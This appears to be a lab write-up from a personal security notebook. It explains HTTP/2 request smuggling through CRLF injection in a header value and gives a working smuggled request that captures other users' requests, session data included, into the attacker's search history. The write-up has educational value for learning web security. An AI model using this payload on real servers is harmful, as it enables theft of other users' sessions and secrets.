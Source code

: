 ```yaml
---
aliases: Exploiting HTTP/2 Request Smuggling
---
```



# Request smuggling via CRLF injection

As HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split:

```http
HTTP/2
foo	bar\r\nTransfer-Encoding: chunked

HTTP/1
Foo: bar
Transfer-Encoding: chunked
```

Chained with [Capturing other user' requests](Exploiting%20HTTP%20Request%20Smuggling.md#Capturing%20other%20user'%20requests) technique to exfiltrate other user's secret:

*Home page* saves recent researches:
```html
...
<label>Recent searches:</label>
	<ul>
		<li><a href="/?search=xioqo5ya1%27%22%3c%3e">xioqo5ya1&apos;&quot;&lt;&gt;</a></li>
		<li><a href="/?search=test">test</a></li>
		<li><a href="/?search=foo">foo</a></li>
...
```

Injected a `Transfer-Encoding` header using CRLF and poisoned the request que to exfiltrate other user' requests inside my research history:
```http
:scheme: https
:method: POST
:path: /
:authority: 0a7500e8034d7b3680984966002000c7.web-security-academy.net
foo: bar\n\rTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a7500e8034d7b3680984966002000c7.web-security-academy.net
Cookie: session=p9WPLt0MFzmYJVsXRUqDPUpHb4V3LiF0; _lab_analytics=VE803kxQQHMHBbYsL2ZBRfm6vGmn0qJwQKvLvJX7V1xLs73iGkaSsangy36V85SjtofPk0iyeUAEnbX4AKK2pot9C3EorBC01e8Safxe4Fo2H5c7ShLpCQBEikyxjRgYl3vjdHkFSTddh4Z6MWCoHoG73EktKbJlE57KwbJlGG6lD72wNdzyFnX2cJPOaa3ZgwUVOsKNvL6B5Q4XSWxOMwcVhTUOngDuJj0MShaUqNh7oy8X6voinUPmvDqePAZE
Content-Length: 700

search=x
```
